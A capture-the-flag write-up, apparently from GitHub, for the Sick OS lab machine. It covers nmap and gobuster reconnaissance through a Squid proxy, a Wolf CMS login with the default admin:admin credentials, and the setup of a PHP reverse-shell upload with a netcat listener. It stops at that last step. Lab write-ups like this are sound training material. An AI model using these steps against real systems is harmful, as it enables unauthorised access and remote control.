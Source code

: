 # Sick OS write Up 

I got the ip address for the target machine using:
```bash

sudo arp-scan -l

```

Target ip -> 192.168.100.9

### Network Scanning 

```bash

# Nmap 7.95 scan initiated Wed Aug 20 03:03:28 2025 as: /usr/lib/nmap/nmap --privileged -sV -o nmap_full_scan 192.168.100.9
Nmap scan report for 192.168.100.9
Host is up (0.0030s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
3128/tcp open   http-proxy Squid http proxy 3.1.19
8080/tcp closed http-proxy
MAC Address: 08:00:27:1C:91:68 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 20 03:03:45 2025 -- 1 IP address (1 host up) scanned in 16.43 seconds

```

Open Ports are 22(ssh) and 3128(htttp-proxy) 
Here 22 has no vulnearability 

3128 has Squid http proxy, to access the proxy I used foxy proxy, and to navigated to 127.0.0.1
![homepage of target server](screenshots/homepage.png)

I navigated to robots.txt and got the path to /wolfcms which redirected to the wolf cms homepage
![wolf cms homepage](screenshots/wolf_1.png)

Let's use go buster to get the hidden dirs and endpoints of the cms


```bash

gobuster dir -u http://127.0.0.1/wolfcms/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.bak,.html,.js,.sh,.txt --proxy http://192.168.100.9:3128

```

> --proxy is used to resolve the proxy connection 

![gobuster dir](screenshots/gobuster.png)

Lets Navigate to /docs
After some enumeration in files I got updataing.txt and it has following version 
![version of wolfcms](screenshots/version.png)

So wolfcms version has vulnearablity listed on exploit-db
![exploit db](screenshots/exploit.png)

So lets navigate to URL, I got a login page:
![cms login page](screenshots/login.png)

Here I tried default username and password admin:admin and got the admin access of the cms
![admin page](screenshots/admin_page.png)

Here, I got the admin dashboard which has a functionality to upload a file, I will use to upload a reverse shell php script and use netcat to listen to connection from the target machine

```php
$ip = '192.168.100.5';
$port = 1234;
```

```bash
nc -nlvp 1234  
```
